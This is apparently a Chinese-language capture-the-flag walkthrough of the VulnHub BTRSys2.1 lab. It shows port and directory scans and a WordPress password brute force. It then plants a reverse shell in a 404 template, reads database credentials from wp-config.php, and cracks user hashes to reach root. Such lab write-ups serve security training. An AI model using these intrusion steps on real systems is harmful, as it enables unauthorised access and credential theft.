





# BTRSys2.1

> https://download.vulnhub.com/btrsys/BTRSys2.1.rar

靶场IP：`192.168.32.234`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.234                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-12 21:55 EDT
Nmap scan report for 192.168.32.234
Host is up (0.00085s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:C6:A1:A5 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds

```

FTP可以匿名访问，但是没有发现任何内容

```
┌──(root💀kali)-[~/Desktop]
└─# ftp 192.168.32.234
Connected to 192.168.32.234.
220 (vsFTPd 3.0.3)
Name (192.168.32.234:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        118          4096 Mar 20  2017 .
drwxr-xr-x    2 0        118          4096 Mar 20  2017 ..
226 Directory send OK.
```

访问80端口




爆破目录

```
┌──(root💀kali)-[~/Desktop]
└─# dirb http://192.168.32.234/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Sep 12 22:12:27 2022
URL_BASE: http://192.168.32.234/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.234/ ----
+ http://192.168.32.234/index.html (CODE:200|SIZE:81)                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.234/javascript/                                                                                                                                                                                            
+ http://192.168.32.234/LICENSE (CODE:200|SIZE:1672)                                                                                                                                                                                        
+ http://192.168.32.234/robots.txt (CODE:200|SIZE:1451)                                                                                                                                                                                     
+ http://192.168.32.234/server-status (CODE:403|SIZE:302)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.234/upload/                                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.234/wordpress/                                                                                                                                                                                             
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.234/javascript/ ----
==> DIRECTORY: http://192.168.32.234/javascript/jquery/                                                                                                                                                                                     
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.234/upload/ ----
==> DIRECTORY: http://192.168.32.234/upload/account/                                                                                                                                                                                        
==> DIRECTORY: http://192.168.32.234/upload/admins/                                                                                                                                                                                         
==> DIRECTORY: http://192.168.32.234/upload/framework/                                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.234/upload/include/                                                                                                                                                                                        
+ http://192.168.32.234/upload/index.php (CODE:500|SIZE:67)                                                                                                                                                                                 
==> DIRECTORY: http://192.168.32.234/upload/languages/                                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.234/upload/media/                                                                                                                                                                                          
==> DIRECTORY: http://192.168.32.234/upload/modules/                                                                                                                                                                                        
==> DIRECTORY: http://192.168.32.234/upload/page/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.234/upload/search/                                                                                                                                                                                         
==> DIRECTORY: http://192.168.32.234/upload/temp/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.234/upload/templates/      
```

爆破用户密码

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://192.168.32.234/wordpress/   --enumerate u  -P password 

[!] Valid Combinations Found:
 | Username: admin, Password: admin

```

登录wordpress



添加反弹shell，保存文件。



访问:`192.168.32.234/wordpress/?p=100000000`,触发404页面。



查看`wp-config.php`配置文件

```
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

```

```
mysql> select * from wp_users;
select * from wp_users;
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | a318e4507e5a74604aafb45e4741edd3 | btrisk        | mdemir@btrisk.com |          | 2017-04-24 17:37:04 |                     |           0 | btrisk       |
|  2 | admin      | 21232f297a57a5a743894a0e4a801fc3 | admin         | ikaya@btrisk.com  |          | 2017-04-24 17:37:04 |                     |           4 | admin        |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
2 rows in set (0.00 sec)

```

破解hash：`roottoor`


su切换到root用户


